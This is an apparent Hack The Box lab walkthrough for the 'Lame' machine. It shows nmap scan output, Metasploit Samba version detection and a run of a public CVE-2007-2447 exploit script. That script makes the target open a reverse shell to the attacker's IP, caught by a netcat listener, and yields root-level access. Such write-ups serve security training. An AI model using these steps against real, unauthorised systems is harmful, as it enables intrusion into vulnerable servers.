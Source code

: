 # Lame Walkthrough

![lame](https://raw.githubusercontent.com/SUNNYSAINI01001/HackTheBox/main/Lame/lame.png)

## Let's first fast scan our machine with nmap 

```
sudo nmap -F -sV 10.10.10.3
```

### Result

```
PORT    STATE SERVICE     VERSION 
21/tcp  open  ftp         vsftpd 2.3.4 
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0) 
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP) 
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP) 
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Now let's berif scan our machine with open ports

```
sudo nmap -A -O -v -p 21,22,139,445 --script vuln 10.10.10.3
```

### Result

```
PORT    STATE SERVICE     VERSION 
21/tcp  open  ftp         vsftpd 2.3.4 
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0) 
| vulners:  
|   cpe:/a:openbsd:openssh:4.7p1:  
|       SECURITYVULNS:VULN:8166 7.5     https://vulners.com/securityvulns/SECURITYVULNS:VULN:8166 
|       MSF:ILITIES/OPENBSD-OPENSSH-CVE-2010-4478/      7.5     https://vulners.com/metasploit/MSF:ILITIES/OPENBSD-OPENSSH-CVE
-2010-4478/     *EXPLOIT* 
|       MSF:ILITIES/LINUXRPM-ELSA-2008-0855/    7.5     https://vulners.com/metasploit/MSF:ILITIES/LINUXRPM-ELSA-2008-0855/  *
EXPLOIT* 
|       MSF:ILITIES/GENTOO-LINUX-CVE-2010-4252/ 7.5     https://vulners.com/metasploit/MSF:ILITIES/GENTOO-LINUX-CVE-2010-4252/
*EXPLOIT* 
|       CVE-2010-4478   7.5     https://vulners.com/cve/CVE-2010-4478 
|       CVE-2008-1657   6.5     https://vulners.com/cve/CVE-2008-1657 
|       SSV:60656       5.0     https://vulners.com/seebug/SSV:60656    *EXPLOIT* 
|       CVE-2017-15906  5.0     https://vulners.com/cve/CVE-2017-15906 
|       CVE-2010-5107   5.0     https://vulners.com/cve/CVE-2010-5107 
|       MSF:ILITIES/SUSE-CVE-2011-5000/ 3.5     https://vulners.com/metasploit/MSF:ILITIES/SUSE-CVE-2011-5000/  *EXPLOIT* 
|       MSF:ILITIES/ORACLE-SOLARIS-CVE-2012-0814/       3.5     https://vulners.com/metasploit/MSF:ILITIES/ORACLE-SOLARIS-CVE-
2012-0814/      *EXPLOIT* 
|       MSF:ILITIES/GENTOO-LINUX-CVE-2011-5000/ 3.5     https://vulners.com/metasploit/MSF:ILITIES/GENTOO-LINUX-CVE-2011-5000/
*EXPLOIT* 
|       MSF:ILITIES/AMAZON-LINUX-AMI-ALAS-2012-99/      3.5     https://vulners.com/metasploit/MSF:ILITIES/AMAZON-LINUX-AMI-AL
AS-2012-99/     *EXPLOIT* 
|       CVE-2012-0814   3.5     https://vulners.com/cve/CVE-2012-0814 
|       CVE-2011-5000   3.5     https://vulners.com/cve/CVE-2011-5000 
|       CVE-2008-5161   2.6     https://vulners.com/cve/CVE-2008-5161 
|       CVE-2011-4327   2.1     https://vulners.com/cve/CVE-2011-4327 
|       MSF:ILITIES/SSH-OPENSSH-X11USELOCALHOST-X11-FORWARDING-SESSION-HIJACK/  1.2     https://vulners.com/metasploit/MSF:ILI
TIES/SSH-OPENSSH-X11USELOCALHOST-X11-FORWARDING-SESSION-HIJACK/ *EXPLOIT* 
|       CVE-2008-3259   1.2     https://vulners.com/cve/CVE-2008-3259 
|_      SECURITYVULNS:VULN:9455 0.0     https://vulners.com/securityvulns/SECURITYVULNS:VULN:9455 
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP) 
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP) 
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port 
Aggressive OS guesses: DD-WRT v24-sp1 (Linux 2.4.36) (92%), OpenWrt White Russian 0.9 (Linux 2.4.30) (92%), Linux 2.6.23 (92%)
, Belkin N300 WAP (Linux 2.6.30) (92%), Control4 HC-300 home controller (92%), D-Link DAP-1522 WAP, or Xerox WorkCentre Pro 24
5 or 6556 printer (92%), Dell Integrated Remote Access Controller (iDRAC5) (92%), Dell Integrated Remote Access Controller (iD
RAC6) (92%), Linksys WET54GS5 WAP, Tranzeo TR-CPQ-19f WAP, or Xerox WorkCentre Pro 265 printer (92%), Linux 2.4.21 - 2.4.31 (l
ikely embedded) (92%) 
No exact OS matches for host (test conditions non-ideal). 
Uptime guess: 0.005 days (since Sat Apr  2 09:27:21 2022) 
Network Distance: 2 hops 
TCP Sequence Prediction: Difficulty=198 (Good luck!) 
IP ID Sequence Generation: All zeros 
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel 
 
Host script results: 
|_smb-vuln-ms10-054: false 
|_smb-vuln-regsvc-dos: ERROR: Script execution failed (use -d to debug) 
|_smb-vuln-ms10-061: false 
 
TRACEROUTE (using port 22/tcp) 
HOP RTT       ADDRESS 
1   294.45 ms 10.10.14.1 
2   293.06 ms 10.10.10.3
```

## After analysis nmap result we get 21 port is for ftp and 22 for ssh and two ports 139 and 445 is samba ports. Now let's try to find smaba version .

## I tried enum4linux but that's don't work for me then i use metasploit auxiliary  for finding samba version and that's work for me, auxiliary given below.

```
auxiliary/scanner/smb/smb_version
```

### Result

```
[*] 10.10.10.3:445        - SMB Detected (versions:1) (preferred dialect:) (signatures:optional) 
[*] 10.10.10.3:445        -   Host could not be identified: Unix (Samba 3.0.20-Debian) 
[*] 10.10.10.3:           - Scanned 1 of 1 hosts (100% complete) 
[*] Auxiliary module execution completed
```

## Here we got samba version 3.0.20, let's search on google if this version of samba have any exploitable vulnerability , you also use searchsploit for finding vulnerability.

## We got Username' map script vulnerability let's google about it. we got CVE: 2007-2447 , we got a github url https://github.com/amriunix/CVE-2007-2447 that give a python script and usage about this script let's use it and gain iaccess to the system.

![github](https://raw.githubusercontent.com/SUNNYSAINI01001/HackTheBox/main/Lame/github.png)

```
python usermap_script.py 10.10.10.3 139 <ip> 1337
``` 

## Start a net cat listner and run the above command.

# BOOOMMMMMM!!!!!!!!!! WE GOT SHELL WITH HIGH PRIVILEGES. 

![cool](https://c.tenor.com/hI-oOVvwasYAAAAC/happy.gif)
